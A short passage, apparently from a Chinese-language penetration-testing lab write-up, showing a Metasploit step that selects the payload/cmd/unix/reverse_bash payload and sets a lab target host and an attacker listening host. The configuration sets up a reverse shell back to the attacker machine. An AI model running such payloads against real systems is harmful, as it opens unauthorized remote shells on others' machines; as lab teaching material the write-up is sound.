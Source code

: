 ![alt text](./img/使用exp%20查看可用exp%20payloads.png)

使用合适的 `exp payload` 并配置 `exp` 参数
```
set payload payload/cmd/unix/reverse_bash
set RHOSTS 192.168.56.105   #靶机 IP
set RPORT 26106     #靶机目标端口  
set LHOST  192.168.56.104   #攻击者主机 IP
show options  # 再次检查 exp 配置参数列表
```
<div style="display: flex; gap: 10px;">